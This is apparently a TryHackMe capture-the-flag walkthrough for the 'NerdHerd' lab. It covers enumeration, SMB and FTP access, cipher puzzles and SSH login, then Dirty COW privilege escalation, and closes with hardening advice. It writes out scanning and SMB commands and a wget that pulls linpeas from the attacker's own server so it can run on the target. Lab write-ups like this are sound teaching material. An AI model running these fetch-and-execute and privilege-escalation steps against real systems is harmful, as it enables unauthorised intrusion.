 TryHackMe <br>
NerdHerd
---
 
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/80584ddc-a6d6-4290-9434-2da143ac5a6f)

# Reconnaissance/Scanning
I started off by scanning the network to see which ports were open/services running on the ports. <br>
```
$ nmap -A -O -sC -sV -p- <machine_IP>
```
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/42f38603-96c6-40c3-a1c8-7d157024ce3a)
 
Gobuster scan on port 1337:

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/b3064e7f-6dc7-4fb4-8a9a-b1fb018716f3)
 
Scanning /admin:

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/7fdf5848-0184-421e-9acf-5579d27b3e61)
 
Trying to enumerate the SMB server for anything. <br>
Using smbmap I found the shares but no users. Since I have no access as guest, I need a username.
```
$ smbmap -H <machine_IP>
```
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/acb829b3-8031-4b33-a51e-a3d13a32649d)
 
Looking for users using the tool enum4linux, I found one!
```
$ enum4linux -a <machine_IP>
```
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/c5311c37-a1d1-417b-a1c5-66126bb8080c)
 
Nice! I tried logging in to the SMB server to view the share nerdherd_classified as the user chuck  <br>
but was prompted for a password, which I don’t happen to have.. <br>
I’ll start working on the FTP server since it supports anonymous login.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/c3cb69e2-e238-433b-9c8c-91ae37f63d61)
 
In the /pub directory there’s a hidden directory and a png file.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/0016e2c6-e7a1-4607-b644-5603351d09aa)
 
In the /.jokesonyou directory there was a text file.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/cadb7095-5e27-4efb-8b33-c0fcd86414bf)
 
Contents of that text file:

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/9b09c7e9-8a75-49f0-99b1-0ea2971197d9)
 
Well, using “leet speak”, they must mean 1337 from leet, so what I’m looking for must be on the web server. <br>
Lol, I got an alert as soon as I got to the Apache splash page.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/3c03d993-2d6f-492f-a888-2581a3bf8071)
 
Followed by:

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/55bea2e9-20fb-4bb7-8cca-9180b2ed9494)
 
Well, let me check the source code before I head to the /admin directory.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/d76ef483-da59-434d-8399-e07abb28cb9f)
 
Towards the bottom was a link to “The Bird is the Word” music video on youtube.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/314304e6-5bc2-4b56-9f3f-42433f21ffc0)
 
Moving on to the /admin page, I was brought to a login prompt.  <br>
Before I tried some SQL injection, I checked the source code to find something noteworthy.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/8bafaaa6-7471-4ef0-bd10-5277d0759a08)
 
Looks like some base64 encoded strings. <br>
I got another username from the first string! 

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/614594f3-5c2f-4ffd-961c-77cf3d733a98)
 
When trying to decode the second string I got a message saying it was invalid, so I tried to remedy it myself without luck.  <br>
I was able to find a base64 repair tool but that didn’t work either! <br> <br>

Since I couldn’t get that second string decoded, I moved on to the image file. <br>
I tried to run some steganography tools on it but the alert I kept getting was “file not supported”. <br>
I ran the command exiftool to look at the metadata on it for anything and when I saw the owner name it stood out.  <br>
It didn’t look normal to me, so I googled it in case it was a clue.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/04d8d49f-490d-4a9a-962b-b95adca143a7)
 
The first result that popped up was Vigenère cipher. I went to dcode[.]fr and tried to decode it, but no luck. <br>
There was a field for a key on the decode page, which made me think back to the findings from earlier.  <br>
Bird is the word. I’ll try the word “bird”. <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/854a3dbb-3f9e-4615-8e37-beda827c9598)
 
That only looks halfway decoded but looks like there is a key! That made me think of trying the whole name of the song.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/48b94884-b17e-439c-88c6-18ddc790e6f8)
 
Looks like it turned out to be a password! Since I have a password now, let me go back to the SMB server and try that again.
```
$ smbclient \\\\10.10.220.169\\nerdherd_classified -U chuck
```
With the password found I can now log in!

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/7e394222-254f-43b0-8fbd-c39884162011)
 
After downloading that, this is what the contents were:

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/378a976f-2c9e-45a8-888d-7bfff589c4dd)
 
Visiting that directory showed another text file.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/f10cfa52-f55b-4db9-8609-52a723ca0fa2)
 
The contents of the text file really were credentials, well, potentially. Let me try them on the SSH server.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/35ae3550-3944-4cee-8489-5718cdc73709)
 
I’m in!

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/1ace7bfc-c75a-4ec0-bbcb-419b9d09085f)
 
This user is in plenty of groups, maybe one of them has access to files or executables I can exploit.. <br>
First things first, check the easy things since I have this user’s password. <br>
I’ll grab the user flag while I’m at it.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/d24f7154-1f97-4b3f-a525-0a4ff434da24)

# Exploit
Can’t run anything as root, nothing juicy in the .bash_history file, no cronjobs, and no binaries with SUID bits. <br>
I changed directories to /tmp, uploaded linpeas and fired that off. <br>
```
# I started a python server on my machine
$ python3 -m http.server <PORT>

# then I used wget to grab the script to the target machine
$ wget hxxp://<IP>:<PORT>/path/to/file

# after successfully getting the script change permissions to execute
$ chmod 777 linpeas.sh
# execute the script
$ ./linpeas.sh
```
One of the things the script found was:

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/0394f8f1-b6ff-45fe-88df-c53e649cad1d)
 
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/a4c29430-d9fb-4828-959a-91c3cf953581)


It’s showing that the machine is potentially vulnerable to CVE-2016–5195 which is the “dirty cow” kernel exploit. Info found <a href="https://dirtycow.ninja/">here.</a>
```
"A race condition was found in the way the Linux kernel's memory subsystem
handled the copy-on-write (COW) breakage of private read-only memory mappings.

An unprivileged local user could use this flaw to gain write access to
otherwise read-only memory mappings and thus increase their privileges on the system."
```
Here’s a snippet via exploit-db[.]com from the code on how to be able to run it.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/f402b032-826f-4160-88f4-bfd5fa766f50)
 

I had to download the script to my machine, use Python to make another simple server, then grab it on the target machine and follow the directions to execute it.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/d6816de3-3f4e-481f-a41e-ca86147f32ef)

# Privilege Escalation
The new user with root privileges is made via the script and now I can escalate to that user.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/81a28076-ec14-4886-9b90-9d30490b1cfd)

 
Now with root privileges, I was going to get the root flag, or so I thought.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/20ce32f7-23ae-49b9-839c-347375ed6af3)
 
I used the find command with some tweaking to see all the text files
```
# find / -type f -iname '*.txt' 2>/dev/null | grep "root"
```

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/a2b30185-687d-426e-b483-142627cff686)
 

Now I’ll grab the root flag!

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/db5f0a93-814b-44e9-8ef8-a5c2bcbfa456)
 
I stumbled onto the bonus flag by being nosy and looking at root’s .bash_history file since its output didn’t get deleted. LOL

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/b932ef3b-3e7b-4557-9596-0f563ef35324)
 
# Reporting
* It's highly advised to disable anonymous login on the FTP server. <br>
* Enable account lockout on the SSH server to prevent bruteforce attacks. <br>
* Be sure to use strong passwords on files or even a password manager to help generate and store the password. <br>
* Keep all software and hardware patched and up to date with the latest security releases to prevent vulnerabilities. <br>
* Have the file output of user's .bash_history get deleted.
